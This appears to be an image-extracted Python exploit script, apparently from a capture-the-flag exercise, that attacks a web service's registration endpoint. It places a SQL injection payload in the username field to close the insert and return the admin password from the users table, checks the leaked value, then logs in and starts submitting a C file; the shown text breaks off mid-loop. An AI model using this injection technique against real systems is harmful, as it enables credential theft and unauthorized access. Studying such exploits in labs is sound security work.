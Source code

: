```python
#!/usr/bin/env python3

import json
import random
import requests
import sys
import time

import logging
logging.basicConfig(level=logging.DEBUG)

def main():

    host = sys.argv[1]
    port = int(sys.argv[2])

    url = f"http://{host}:{port}"

    username = f"attack{random.randint(0, 1000000)}"
    passwd = "testing"

    exploit_username = f"{username}','{passwd}')returning(id),(select(password)from\"users\"where(id)=1)--"
    
    result = requests.post(f"{url}/user/register",
                           json=dict(name=exploit_username,
                                     passwd=passwd))
    assert result.status_code == 200
    r = result.json()
    admin_pass = r['returning_from_db_name']
    assert admin_pass == "zKSTznZYGD"

    username = f"test{random.randint(0, 1000000)}"
    passwd = "testing"
    
    result = requests.post(f"{url}/user/register",
                           json=dict(name=username,
                                     passwd=passwd))
    assert result.status_code == 200
    r = result.json()
    assert 'id' in r

    result = requests.post(f"{url}/user/login",
                           json=dict(name=username,
                                     passwd=passwd))
    assert result.status_code == 200
    r = result.json()
    token = r['token']

    auth_headers = {"X-Auth-Token": token}

    done = False
    while not done:
        result = requests.post(f"{url}/assignment/1/submissions",
                               json=dict(file=open('solution.c', 'r').read()),
                               headers=auth_headers)
        r = result.json()
        id = r['id']

        time.sleep(4)

        while True:

```